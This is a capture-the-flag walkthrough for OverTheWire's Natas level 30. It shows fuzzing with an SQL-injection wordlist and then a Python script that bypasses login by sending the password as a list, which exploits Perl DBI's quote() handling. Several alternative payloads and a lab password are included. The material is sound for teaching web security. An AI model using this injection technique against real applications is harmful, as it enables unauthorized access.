








# 🕸️Natas Level 30 → Level 31

```
http://natas30.natas.labs.overthewire.org
```
Username: natas30  
Password: (natas30_password)


Take a look at the source code



Next, we chose to fuzz it using SQL‑injection payloads with assistance from Caido.



After capturing the request, forward it to Automate.



Pick the target location for fuzzing.



Try out a few wordlists available on GitHub.
```
https://github.com/payloadbox/sql-injection-payload-list
```



Sadly, the attempt was unsuccessful.



### 🔍 After Doing Some Online Research

We came across an interesting write‑up about SQL injection techniques related to Perl. Instead of providing a typical input string, the attacker used a list, which caused unexpected behavior.

```
### Interesting Read
https://security.stackexchange.com/questions/175703/is-this-perl-database-connection-vulnerable-to-sql-injection
https://www.nntp.perl.org/group/perl.dbi.dev/2001/11/msg485.html
> ! /* Standard SQL datatypes (ANSI/ODBC type numbering)		*/
> ! #define	SQL_ALL_TYPES		0
> ! #define	SQL_CHAR		1
> ! #define	SQL_NUMERIC		2
> ! #define	SQL_DECIMAL		3
> ! #define	SQL_INTEGER		4
> ! #define	SQL_SMALLINT		5

```

Next, we wrote a Python script to assist with the task.
```
import requests
import re

# Credentials for natas30
username = "natas30"
password = "WQhx1BvcmP9irs2MP9tRnLsNaDI76YrH"

# Target URL
url = "http://natas30.natas.labs.overthewire.org"


# Start a session to persist cookies and headers across requests
session = requests.Session()

# our payload instead of string we inject list instead
payload = {
    "username":"natas31",
    "password":["'something' or true",2]
}

### other payload that also worked
# ["'anything' or 1=1",3] 
# ["false or true",4]
# ["'pass' or 1=1",5]

response = session.post(
    url,
    data=payload,
    auth=(username, password)
)

print(response.text)

### interesting read
#https://security.stackexchange.com/questions/175703/is-this-perl-database-connection-vulnerable-to-sql-injection
#https://www.nntp.perl.org/group/perl.dbi.dev/2001/11/msg485.html
#https://www.oreilly.com/library/view/programming-the-perl/1565926994/re43.html


```

Make sure the file has executable permissions.



After running the script, the flag appears.



Excellent! Use this flag to proceed to the next round.

